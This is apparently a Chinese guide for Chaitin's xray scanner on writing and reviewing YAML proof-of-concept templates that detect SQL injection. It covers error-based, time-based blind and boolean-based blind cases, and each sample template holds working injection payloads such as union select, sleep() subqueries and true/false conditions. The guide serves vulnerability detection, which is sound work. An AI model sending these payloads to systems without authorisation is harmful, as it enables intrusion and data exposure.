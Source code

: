 # SQL Injection（SQL注入）

对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

!> 测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
	r1: randomInt(8000, 10000)
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
		expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
	author: chaitin
	links:
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/guide/yaml/yaml_poc_template?id=普通注入)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 7)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，比较`推荐`在其中匹配一些特有的返回结果，尽可能地消除网络环境所带来的误报问题，但是不做强求
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 这一条的内容与第二条除了时间的取值都相同即可

?> 这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可

### 模板

[时间盲注](/guide/yaml/yaml_poc_template?id=时间盲注)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
	s1: randomLowercase(5)
	a1: randomInt(1000, 9000)
	a2: randomInt(1000, 9000)
rules:
r0:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
	request:
		cache: true
		method: POST
		path: /xxx.cgi
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
		follow_redirects: true
	expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象

### 模板

[布尔盲注](/guide/yaml/yaml_poc_template?id=布尔盲注)
